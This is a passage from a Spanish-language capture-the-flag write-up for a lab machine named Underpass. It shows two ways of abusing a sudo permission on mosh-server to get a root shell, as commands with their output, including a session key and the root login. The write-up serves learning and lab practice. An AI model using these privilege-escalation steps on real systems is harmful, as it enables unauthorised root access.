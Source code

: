 ~~~ bash
incommatose@parrot underpass $ which mosh                
/usr/bin/mosh
~~~

Abrimos una conexión y nos conectamos directamente a una shell privilegiada utilizando el comando `sudo mosh-server` dentro del parámetro `--server`

~~~ bash
mosh --server "sudo mosh-server" svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 

root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

De esta forma podemos ingresar como `root` al sistema usando la contraseña para el usuario `svcMosh`

### 2 - Abusing `mosh-client` Locally

En este método, podemos abrir un servidor con `mosh-server` por un puerto entre `60000` y `61000` para posteriormente conectarnos y obtener una shell privilegiada

~~~ bash
svcMosh@underpass:~$ sudo mosh-server new -p 60001


MOSH CONNECT 60001 wiRNanFB1xvSQ+VR+waBWA

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 11837]

~~~

Hemos creado un nuevo proceso donde el puerto se encuentra a la espera de una conexión, para conectarnos correctamente, debemos utilizar la variable `MOSH_KEY`, ya sea como variable de entorno o dentro del mismo comando

~~~ bash
svcMosh@underpass:~$ export MOSH_KEY=wiRNanFB1xvSQ+VR+waBWA
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001

# Alternativa
svcMosh@underpass:~$ MOSH_KEY=wiRNanFB1xvSQ+VR+waBWA mosh-client 127.0.0.1 60001
~~~

De ambas maneras llegaremos a lo siguiente. Al momento de conectarnos, se limpiará la pantalla y se nos dará la bienvenida como el usuario `root`

~~~ bash
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun May  4 08:19:22 PM UTC 2025

  System load:  0.02              Processes:             239
  Usage of /:   62.1% of 6.56GB   Users logged in:       1
  Memory usage: 21%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

~~~